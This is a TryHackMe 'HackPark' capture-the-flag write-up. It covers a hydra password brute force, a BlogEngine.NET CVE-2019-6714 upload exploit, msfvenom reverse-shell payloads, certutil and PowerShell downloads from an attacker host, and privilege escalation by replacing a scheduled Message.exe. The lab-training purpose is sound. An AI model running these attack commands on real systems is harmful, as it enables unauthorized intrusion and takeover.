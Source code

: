 ```yaml
---
layout: post
title: "HackPark"
date: 2022-04-24
categories: [Tryhackme, Medium-THM]
tags: [Windows, CVE-2019-6714, RCE]
image: ../../assets/img/posts/HackPark.png 

---
```


## Description

Penetration Testing Challenge.

|**Room**|[HackPark](https://tryhackme.com/room/hackpark)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Creator**|[tryhackme](https://tryhackme.com/p/tryhackme)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.108.193 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/164982229-1fdef16f-e008-4bd5-927a-0254bfe4108b.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV -p80,3389 10.10.108.193 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/164982232-c4330b6d-2dcf-451d-94ac-39609adc5525.png)

Result scan shows that port 80 is running Microsoft IIS server and port 3389 is running another server. Let's start enumerating port 80 first.

Visit http://10.10.108.193,

![image](https://user-images.githubusercontent.com/67465230/164982237-a2a4c598-85c6-4be7-8dbb-0e7474656101.png)

we can see that there is a joker face on the webpage and nothing much.

When I clicked on hamburger icon on top right, I saw login option. Then I got redirected to this url,

![image](https://user-images.githubusercontent.com/67465230/164982242-195f1d7e-76d2-44a1-b534-2523a6337f5c.png)

Okay so here we need to brute force the password to log into panel. But we can see that url includes admin directory out of nowhere, so we can guess the username might be admin and we need to bruteforce the password. So I fireoff the burp suite, send test credentials, copied the post request and paste it in the terminal,

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.108.193 http-post-form "/Account/login.aspx:__VIEWSTATE=FByN8IUAIgjIQty6sGNJDaxnFuAjBFom0EAv6qO0UrvfNodWeW7ckCi3V5gMNUPSXlewBMeSDzeREcbW1j%2BXqSN02JJO6zY0HNloJVvoy4san2PKPikiR90wm1ofrW8Mtf%2BbhM6S2eP3j7buPU0dGpDTJbgQD5T7mltwublxv5XbQgXujmJplTyDZMts0ruonmySZUhGJ%2F%2FrbwypcFHd41fykNOAodAPeChVFSr6DIa4HhFq8t9%2BCY11qqNEVDpzjHuwN5IsuD6Qk9OwUEJxj%2FXybFvoq2UB%2BXVskxoyHTw%2BHsE7vUJtix02vGmMvTHyOxwuIPg06%2BbNfmiRdL14gvG8qD9Lmj9gSMt3MpP6n0BtSnYg&__EVENTVALIDATION=6gczvSYyvL6syWXigPyX3WH3EijLp%2F2ppsErkVbFTgnwsUoQRDdssKykyOaK29bb%2Fua8yGae%2Ff2KlbIYvVRxtF8H4GWitRuf5PXIEPAZKYBIGh0%2FsNSqJR2t5afu7sg24gLK%2B1SPMua%2BjnhapUhRhxOzyokf5GM4hSaSwmvQ%2B24GmXM3&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -t 4
```

![image](https://user-images.githubusercontent.com/67465230/164982251-6ff795c6-284c-4ffa-88cc-83258c32216d.png)

after sometime, I got the admin credential as well.

I tried to log in using admin credential and got into website panel,

![image](https://user-images.githubusercontent.com/67465230/164982253-2e59be0b-1a1b-488d-8c2b-bede7992d290.png)

On about page, I saw the version of the software running on this webserver, 
**BlogEngine.NET 3.3.6**,

![image](https://user-images.githubusercontent.com/67465230/164982258-4084cb90-5c92-4c4d-bb66-00565106f04c.png)

So I quickly search for the possible exploit of [BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution ](https://www.exploit-db.com/exploits/46353),

>**CVE-2019-6714** : An issue was discovered in BlogEngine.NET through 3.3.6.0. A path traversal and Local File Inclusion vulnerability in PostList.ascx.cs can cause unauthenticated users to load a PostView.ascx component from a potentially untrusted location on the local filesystem. This is especially dangerous if an authenticated user uploads a PostView.ascx file using the file manager utility, which is currently allowed. This results in remote code execution for an authenticated user.

Let’s follow the instructions:

1. Start by modifying the script so that we report the correct value for IP and port.
2. Rename your script as `PostView.ascx`
3. Go to posts http://10.10.79.198/admin/#/content/posts and click on “Welcome to HackPark” to edit this post
4. From the edit bar on top of the post, click on the “File Manager” icon
5.  Click on the “+ UPLOAD” button and upload the `PostView.ascx` script
6. Close the file manager and click on “Save”
7. Now, open your listener (`rlwrap nc -nlvp 1234`)
8. Go to http://10.10.79.198/?theme=../../App_Data/files

We got reverse shell and issuing whoami command, we see that we are **iis apppool\blog** user,

![image](https://user-images.githubusercontent.com/67465230/164982269-aa66a7b3-82f4-4229-b520-5265a191c8a8.png)

Since this is windows environment and we can stabilize the shell with the commands used to stabilize linux shell, we can generate a payload using msfvenom and upload it to the target machine and trigger it to get reverse connection.

Let's quickly generate the malicious payload using msfvenom,

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.3.252 LPORT=5555 -f exe > shell.exe
```

![image](https://user-images.githubusercontent.com/67465230/164982276-374e96db-4558-47e0-b4d7-fa380889acfe.png)

Now start the python3 server using `python3 -m http.server` and transfer the payload using certutil command,

```bash
certutil -urlcache -f http://10.9.3.252:8000/shell.exe shell.exe
```

![image](https://user-images.githubusercontent.com/67465230/164982280-e14dbc37-bd36-403e-811a-ccd8da250d62.png)

we can see that our payload gets transferred. 

Let's boot up the metasploit-framework using `msfconsole -q` and set up using,

```bash
use exploit/multi/handler
options
set lhost 10.9.3.252
set lport 5555
run
```

after setting the listener, we need to run the executable in order to trigger the shell. We then get the connection on our listener,

![image](https://user-images.githubusercontent.com/67465230/164982282-cb941c11-b624-456d-ac48-1368f2c2b28e.png)

Enumerating system using `sysinfo`,

![image](https://user-images.githubusercontent.com/67465230/164982525-dacb6d2b-a979-4748-bf0d-9f8450fb9015.png)

Let's take a look at processes running on the system using `ps`,

![image](https://user-images.githubusercontent.com/67465230/164982285-ebcdd7cf-dd2a-40d9-9905-e1754721ad7f.png)

let's search for message executable in the system,

```bash
search -f Message.exe
```

![image](https://user-images.githubusercontent.com/67465230/164982292-c48a2de6-fcc8-4745-a458-591a53da4821.png)

Now that we know where the executable resides, we can navigate to directory and list all the files,

![image](https://user-images.githubusercontent.com/67465230/164982298-1f889ac6-4dc8-492c-8755-8c46cf29a0b3.png)

Let's check the content of the 20198415519.INI_LOG.txt,

```bash
cat 20198415519.INI_LOG.txt
```

![image](https://user-images.githubusercontent.com/67465230/164982301-eeeb73a0-d5df-4769-89f8-aaebfbb82450.png)

we can see that Message.exe service is running as Administrator after every 30 seconds.

Let's try to navigate to jeff user directory and we can see that we got **Access is denied** message because we don't have enough privileges,

![image](https://user-images.githubusercontent.com/67465230/164982306-f21fc7eb-ae7f-4879-b525-0b14f4bb5870.png)

Now, what we can do is that to create the payload of same name (**Message.exe**) and transfer it to the system, put in the same path we discovered above. Then this malicious Message.exe will run every 30 seconds as Administrator user, giving us system shell. 

So let's first create the malicious payload using msfvenom,

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.3.252 LPORT=6666 -f exe > Message.exe
```

![image](https://user-images.githubusercontent.com/67465230/164982307-5de2a22e-716d-4766-a135-7135c1761021.png)

Again, let's set up the another listener on metasploit-framework. Now, using powershell one-liner, we can transfer the payload,

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://10.9.3.252:8000/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```

![image](https://user-images.githubusercontent.com/67465230/164982313-33ff6ec8-ef03-4af7-8cb6-4c59c89ff1f9.png)

Now, we just need to wait for our malicious payload to run every 30 seconds and after that, we will get a reverse shell as **HACKPARK\Administrator user**,

![image](https://user-images.githubusercontent.com/67465230/164982314-0b34e8c0-6458-49de-8788-073ec4324792.png)

Now, we can navigate to jeff user directory and fetch the user flag,

![image](https://user-images.githubusercontent.com/67465230/164982453-936068f1-7e4d-406f-85e9-8af5368dc989.png)

same goes for Administrator user,

![image](https://user-images.githubusercontent.com/67465230/164982323-f70929e0-99c4-4016-a4c7-a7eb223ab1f4.png)
